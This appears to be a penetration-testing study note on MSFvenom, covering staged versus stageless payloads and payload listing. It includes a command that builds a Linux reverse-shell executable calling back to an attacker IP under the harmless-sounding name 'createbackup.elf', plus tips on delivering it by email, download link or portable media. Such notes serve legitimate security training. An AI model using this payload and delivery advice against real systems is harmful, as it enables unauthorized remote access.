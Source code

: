 ```table-of-contents
title: ## Table of Contents
style: nestedList # TOC style (nestedList|nestedOrderedList|inlineFirstLevel)
minLevel: 0 # Include headings from the specified level
maxLevel: 3 # Include headings up to the specified level
includeLinks: true # Make headings clickable
debugInConsole: false # Print debug info in Obsidian console
```

## Summary
MSFvenom is a tool within the [[Metasploit]] framework for creating, encrypting & encoding payloads. The delivery of these payloads is up to the attacker, this tool only aids to creates them. This is a really useful tool if we don't have direct access to the target system but we need a payload that we can deliver another way (eg. social engineering).

### Staged vs Stageless Payloads
A *staged* payload will only setup a 'small stage' that will then call back to the attack box to download the rest of the payload, and execute it. These take up space in memory so there is less space for the actual payload. These are useful when an exploit scenario has little space for a large payload to be uploaded but instead we could upload a stage that then downloads a larger payload into a more suitable place / into larger memory.

A *stageless* payload does not have a stage. The entire payload is sent over the network connection at once. This could benefit us in environments with little bandwidth or latency where a staged payload may not be stable enough. Sometimes these can be better for evasion too as they cause less network traffic, which could be helpful for a social engineering attack.

The description or the format of the name of the payload can identify if it is staged or stageless.
```bash
# Staged (indicated by the /'s ) we can see the different stages (eg. {0} create a shell, {1} then create a reverse tcp)
windows/meterpreter/reverse_tcp
linux/x86/shell/reverse_tcp

# Stageless
windows/meterpreter_reverse_tcp
linux/zarch/meterpreter_reverse_tcp
```

![[Metasploit#Installation]]

## Documentation
**Cheatsheet:** 
**Website:** 
## Usage

### List all payloads
```sh
msfvenon -l payloads
# Payloads will commonly be named with their OS first eg. windows/dllinject/bind_tcp
```

### Building a stageless payload
```bash
msfvenom -p [payload_path] [options] -f [binary_format] > [file_name].[binary_format]

msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.15.112 LPORT=443 -f elf > createbackup.elf
```
We could then deliver this to our target system, common ways include:
- Email with file attached
- Download link on a website
- Combined with a metasploit exploit (but would likely need us to be on the internal network)
- Via portable media during an on-site attack
> We also need to make sure it gets executed once on the system.